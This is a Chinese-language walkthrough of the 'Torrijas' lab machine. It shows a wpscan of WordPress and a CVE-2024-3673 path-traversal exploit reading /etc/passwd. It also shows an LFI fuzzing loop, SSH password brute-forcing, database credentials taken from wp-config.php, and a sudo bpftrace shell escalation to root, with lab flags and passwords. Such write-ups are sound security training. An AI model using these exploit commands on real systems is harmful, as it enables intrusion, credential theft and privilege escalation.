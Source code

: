 # Torrijas

2025.02.24 https://thehackerslabs.com/torrijas/

[video](https://www.bilibili.com/video/BV1nNPxegEL4/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

80 web 扫描出 http://192.168.5.40/wordpress/ 也是一个 wordpress。wpscan 直接扫描：

```
wpscan --url http://192.168.5.40/wordpress/ -e u,ap,at,tt,cb --plugins-detection mixed
```

发现用户 administrator 和插件 web-directory-free 1.7.2 ，这个插件有 CVE-2024-3673 漏洞，使用这个 exp 进行利用 https://github.com/Nxploited/CVE-2024-3673/blob/main/CVE-2024-3673.py 下载 py 脚本：

```
python3 CVE-2024-3673.py --url http://192.168.5.40/wordpress/ --file ../../../../../etc/passwd

{
"html": "
root:x:0:0:root:/root:/bin/bash
primo:x:1001:1001::/home/primo:/bin/bash
premo:x:1002:1002::/home/premo:/bin/bash",
"hash": "91d75cb01d4a5d829e86bca1858566db",
"map_markers": "",
"map_listings": "",
"hide_show_more_listings_button": 1,
"sql": "",
"params": "",
"base_url": "http://torrija.thl/wordpress"
}
```

读取到了 passwd 文件内容，发现 2 个用户 primo 和 premo 进行系统文件枚举：

```
for i in $(cat /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt); do echo $i; python3 CVE-2024-3673.py --url http://192.168.5.40/wordpress/ --file ../../../../..$1 ;done
```

尝试爆破下 primo 和 premo 的 ssh 登陆密码，爆出 premo 的 ssh 登陆密码 cassandra

登陆后，拿到 user flag:

```
premo@Torrija-TheHackersLabs:~$ cat user.txt
e7d95b3635f4d45c8bdd6bf31ad4673c  -
```

查看 mysql 操作记录，可能才这个表里 primo 有数据：

```
premo@Torrija-TheHackersLabs:~$ cat .mysql_history
_HiStOrY_V2_
show\040databases;
use\040Torrijas;
show\040tables;
select\040*\040from\040primo;
exit;
```

找到了 wordpress 的数据库配置文件：

```
premo@Torrija-TheHackersLabs:/var/www/html/wordpress$ cat wp-config.php

define( 'DB_USER', 'admin' );
define( 'DB_PASSWORD', 'afdvasgvfdsabdgvs6a9vd8sv' );
```

登陆数据库，这里不要使用 admin 登陆，要使用 root 登陆，同时 root 的密码和 admin 是一样的:

```
mysql -u root -pafdvasgvfdsabdgvs6a9vd8sv

MariaDB [Torrijas]> select * from primo;
+----+---------+----------------+
| id | usuario | contraseña     |
+----+---------+----------------+
|  1 | primo   | queazeshurmano |
+----+---------+----------------+
```

得到了 primo 用户的密码 queazeshurmano , 切换到该用户，sudo -l 发现 (root) NOPASSWD: /usr/bin/bpftrace 直接提权到 root：

```
primo@Torrija-TheHackersLabs:~$ sudo bpftrace -c /bin/sh -e 'END {exit()}'
sudo: unable to resolve host Torrija-TheHackersLabs: Fallo temporal en la resolución del nombre
Attaching 1 probe...
# cd /root
# ls
root.txt
# cat root.txt
f3e431cd1129e9879e482fcb2cc151e8  -
```
